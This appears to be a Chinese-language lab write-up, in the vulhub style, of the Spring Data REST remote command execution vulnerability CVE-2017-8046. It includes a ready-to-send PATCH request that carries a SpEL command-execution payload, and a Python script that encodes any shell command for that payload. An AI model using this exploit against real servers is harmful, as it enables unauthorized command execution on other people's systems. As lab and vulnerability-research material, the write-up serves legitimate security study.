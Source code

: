 Spring Data Rest 远程命令执行漏洞（CVE-2017-8046）
--


### 漏洞简介

Spring Data REST是一个构建在Spring Data之上，为了帮助开发者更加容易地开发REST风格的Web服务。在REST API的Patch方法中（实现RFC6902），path的值被传入setValue，导致执行了SpEL表达式，触发远程命令执行漏洞。

### 影响范围

以下产品和版本受到影响：Pivotal Spring Data REST 2.5.12之前的版本，2.6.7之前的版本，3.0 RC3之前的版本；Spring Boot 2.0.0M4之前版本，Spring Data Kay-RC3之前的版本。 

### 利用条件

知道资源地址，例如本例中的资源地址就是/customers/1

### 利用方法

访问http://your-ip:8080/customers/1，看到一个资源。我们使用PATCH请求来修改之：

```
PATCH /customers/1 HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Content-Length: 202

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]
```

path的值是SpEL表达式，发送上述数据包，将执行new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}表示的命令touch /tmp/success。

![](assets/poc.png)

想要执行其他命令，只需要将特定命令转换为byte串就行了，我这里用python写了一脚本：

```python
# -*- coding:utf-8 -*-

bytes_str = '116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115'


def bytes2str(bytes_str):
    mystr = ''
    bytes_list = bytes_str.split(',')
    for byte in bytes_list:
        mystr += chr(int(byte))
    print(mystr)


def str2bytes(mystr):
    bytes_str = ''
    for char in mystr:
        bytes_str += str(ord(char))+","
    print(bytes_str.strip(','))

if __name__ == '__main__':
    str2bytes("touch /tmp/success")
```

这个脚本会将命令转换为byte串

![](assets/python.png)

### 渗透测试特征

返回的是json格式的数据

### 痕迹分析


### 参考

漏洞环境：https://github.com/vulhub/vulhub/tree/master/spring/CVE-2017-8046



